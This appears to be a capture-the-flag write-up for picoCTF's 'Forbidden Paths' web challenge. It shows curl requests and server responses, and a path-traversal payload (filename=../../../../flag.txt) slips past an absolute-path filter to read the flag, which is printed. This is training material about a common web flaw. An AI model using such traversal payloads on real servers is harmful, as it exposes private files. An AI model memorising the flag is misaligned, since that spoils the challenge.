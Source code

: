 ## Forbidden Paths (200 points)

**Description**: Can you get the flag? Here is the [website](http://saturn.picoctf.net:49700/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

```html
<form role="form" action="read.php" method="post">
  <input type="text" name="filename" placeholder="Filename" required></br>
  <button type="submit" name="read">Read</button>
</form>
```

**Solution**: The simple command does not work:

```console
$ curl -s http://saturn.picoctf.net:49700/flag.txt
<html>
<head><title>500 Internal Server Error</title></head>
<body>
<center><h1>500 Internal Server Error</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

or

```console
$ curl -X POST "http://saturn.picoctf.net:49700/read.php" -d filename=flag.txt
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    File does not exist  </body>
</html>
```

Try some relative paths:

```console
$ curl -X POST "http://saturn.picoctf.net:49700/read.php" -d filename=../../../../flag.txt
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_6db46514}<br>  </body>
</html>
```

